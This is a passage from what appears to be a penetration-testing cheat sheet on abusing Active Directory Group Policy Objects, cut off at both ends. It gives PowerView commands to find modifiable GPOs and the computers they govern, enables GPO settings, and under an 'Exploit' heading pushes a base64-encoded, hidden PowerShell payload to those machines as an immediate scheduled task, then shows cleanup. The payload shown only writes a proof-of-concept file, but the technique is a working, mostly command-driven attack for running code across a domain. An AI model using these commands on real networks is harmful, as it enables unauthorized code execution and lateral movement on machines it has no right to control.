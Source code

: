 ```
PowerView3 > Get-NetGPO | % {Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "MEGACORP\PolicyAdmins"}
```

List computers that are affected by vulnerable (modifiable) GPO:

```
PowerView3 > Get-NetOU -GUID "00ff00ff-00ff-00ff-00ff-00ff00ff00ff" | % {Get-NetComputer -ADsPath $_}
```

Note: if I list all OUs affected by this GPO with PowerView, there will be no domain shown (like in BloodHound), but in Group Policy Manager we can see that it is presented.

Check if computer settings are enabled for this GPO (and enable them if not):

* [https://gist.github.com/snovvcrash/ecdc639b061fe787617d8d92d8549801](https://gist.github.com/snovvcrash/ecdc639b061fe787617d8d92d8549801)

```
PS > Get-Gpo VULN.GPO.NAME
PS > Set-GpoStatus VULN.GPO.NAME -Status AllSettingsEnabled
```


#### Exploit

Create a task with a pwsh payload:

```
$ echo 'sc -path "c:\\windows\\temp\\poc.txt" -value "GPO Abuse PoC..."' | iconv -t UTF-16LE | base64 -w0; echo
cwBjACAALQBwAGEAdABoACAAIgBjADoAXAB3AGkAbgBkAG8AdwBzAFwAdABlAG0AcABcAHAAbwBjAC4AdAB4AHQAIgAgAC0AdgBhAGwAdQBlACAAIgBHAFAATwAgAEEAYgB1AHMAZQAgAFAAbwBDAC4ALgAuACIACgA=
PS > New-GPOImmediateTask -TaskName Pentest -GPODisplayName VULN.GPO.NAME -CommandArguments '-NoP -NonI -W Hidden -Enc cwBjACAALQBwAGEAdABoACAAIgBjADoAXAB3AGkAbgBkAG8AdwBzAFwAdABlAG0AcABcAHAAbwBjAC4AdAB4AHQAIgAgAC0AdgBhAGwAdQBlACAAIgBHAFAATwAgAEEAYgB1AHMAZQAgAFAAbwBDAC4ALgAuACIACgA=' -Force
```

Cleanup:

```
PS > New-GPOImmediateTask -GPODisplayName VULN.GPO.NAME -Remove -Force
```

Check when GP was last applied:

```
Cmd > GPRESULT /R
```



### Reach a Locked Down PC

If you find yourself in a situation when you're already a domain admin and you need to access a locked down PC (no RDP/WinRM, no SMB shares, no owned local admins, etc.), creating an evil GPO may help.

Identify the OU containing the VICTIM-PC object:
